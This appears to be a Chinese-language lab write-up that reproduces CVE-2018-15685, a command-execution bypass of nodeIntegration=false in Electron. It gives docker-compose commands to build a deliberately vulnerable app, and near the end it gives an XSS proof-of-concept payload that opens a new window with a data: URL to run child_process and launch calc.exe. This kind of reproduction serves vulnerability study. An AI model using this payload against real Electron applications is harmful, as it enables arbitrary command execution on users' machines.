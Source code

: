 # Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）

Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

参考链接：

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web
```

此时，访问`http://your-ip:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

## 复现漏洞

在本地打开应用：

![](1.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交`<img src=1 onerror="require('child_process').exec('calc.exe')">`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,But this one does! <br><pre>process.cwd(): <script>require(\'child_process\').exec(\'calc.exe\')</script></pre>');">
```

可见，calc.exe已成功弹出：

![](2.png)